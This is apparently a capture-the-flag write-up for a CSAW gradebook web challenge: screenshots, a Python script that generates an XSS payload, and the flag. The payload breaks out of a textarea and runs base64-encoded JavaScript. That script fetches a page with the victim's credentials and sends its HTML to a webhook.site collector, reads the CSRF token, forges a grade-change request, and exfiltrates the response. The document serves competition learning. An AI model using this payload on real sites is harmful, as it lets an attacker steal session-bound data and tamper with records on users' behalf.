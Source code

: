 
<img width="664" height="416" alt="image" src="https://github.com/user-attachments/assets/ab144e77-7118-427e-917b-882e9d252f4d" />


<img width="743" height="158" alt="image" src="https://github.com/user-attachments/assets/0b3f65b8-ff3e-42e7-8002-5f48c277109d" />


<img width="943" height="157" alt="image" src="https://github.com/user-attachments/assets/716f57ad-c272-4ad6-879c-00102934a673" />

<img width="916" height="628" alt="image" src="https://github.com/user-attachments/assets/b201e952-83bd-4ed1-b34e-d3e5ccad137b" />

<img width="1865" height="684" alt="image" src="https://github.com/user-attachments/assets/f697cc86-6819-438b-b59c-11fea88abb08" />

```
import base64

class_ids = [
    "93bf63a7-c8ad-4092-bd32-136944ad9584",
    "bb7b4ab6-7e43-4e04-914d-f1c5f897dfa5",
    "d9c836fd-a5ca-4d44-a241-e8428447e5cf",
    "8938a046-e7c5-4402-84b7-36980f2eede6",
    "278614a5-3c34-41a9-9e30-3f4b0b621f9b"
]

student_id = "757729e2-45e5-4dfb-be55-814da78f4936"


def generate_xss_payload():
    # Your exact JavaScript code
    js_code = """
fetch('https://gradebook-app.ctf.csaw.io/grade-change',{method:'GET',credentials:'include'})
.then(r=>r.text())
.then(d=>{
    new Image().src='https://webhook.site/adba0a28-6810-4262-9e4e-08d620900ebb?html='+btoa(d);
    const t=new DOMParser().parseFromString(d,'text/html').querySelector('input[name="csrf_token"]').value;
    fetch('https://gradebook-app.ctf.csaw.io/grade-change',{
        method:'POST',
        credentials:'include',
        headers:{'Content-Type':'application/x-www-form-urlencoded'},
        body:new URLSearchParams({
            csrf_token:t,
            student_id:'757729e2-45e5-4dfb-be55-814da78f4936',
            class_id:'8938a046-e7c5-4402-84b7-36980f2eede6',
            grade:'A'
        })
    }).then(r=>r.text()).then(r=>{new Image().src='https://webhook.site/adba0a28-6810-4262-9e4e-08d620900ebb?result='+btoa(r)})
})
.catch(err=>{
    new Image().src='https://webhook.site/adba0a28-6810-4262-9e4e-08d620900ebb?error='+btoa(err.message)
});
"""
    js_code = ' '.join(js_code.split()).replace(' {', '{').replace(' }', '}')
    js_b64 = base64.b64encode(js_code.encode('utf-8')).decode('ascii')
    payload = f'</textarea><script src="data:application/javascript;base64,{js_b64}"></script>'
    return payload


xss_payload = generate_xss_payload()
print(xss_payload)

```



flag: `csawctf{y0u_m@de_the_h@cking_h0n0r_r0ll}`

